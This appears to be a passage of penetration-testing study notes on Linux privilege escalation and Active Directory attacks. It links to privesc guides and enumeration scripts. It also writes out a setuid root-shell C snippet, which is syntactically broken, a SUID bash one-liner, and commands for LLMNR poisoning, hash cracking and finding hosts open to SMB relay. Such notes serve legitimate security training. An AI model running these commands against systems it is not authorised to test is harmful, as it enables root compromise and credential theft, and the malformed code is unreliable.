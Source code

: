 ### Cron Jobs
cat /etc/crontab
ls /var/spool/cron
ls /etc/cron.*
  
## Guides
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
    
- [HackTricks](https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist)
    
- [Sushant 747’s Guide](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html)
    
- [g0tmi1k Blog](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
    
  
## Scripts
- [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
- [linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker)
- [linux-exploit-suggester](https://github.com/The-Z-Labs/linux-exploit-suggester)
- Meterpreter run post/multi/recon/local_exploit_suggester
    
  
int main {
setuid(0);
setgid(0);
system("/bin/bash");
}
  
cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p
Active Directory (AD)
[https://orange-cyberdefense.github.io/ocd-mindmaps/img/pentest_ad_dark_2022_11.svg](https://orange-cyberdefense.github.io/ocd-mindmaps/img/pentest_ad_dark_2022_11.svg)
Sync clock: timedatectl set-ntp 0 && ntpdate -u [domain]
# LLMNR/NBT-NS Poisoning
- responder -I [interface] -dwP (optional -v)
    
- Remember you can get interface with ip a
    
- hashcat -m 5600 [file containing obtained hash] [wordlist]
# SMB Relay
Requirements: SMB signing disabled and relayed credentials are admin on the target machine
Note: You can’t relay back to the same machine.
- discover hosts with SMB signing disabled:
    
- Nessus scan will tell you
    
OR
- nmap --script smb2-security-mode -p 445 [network]
    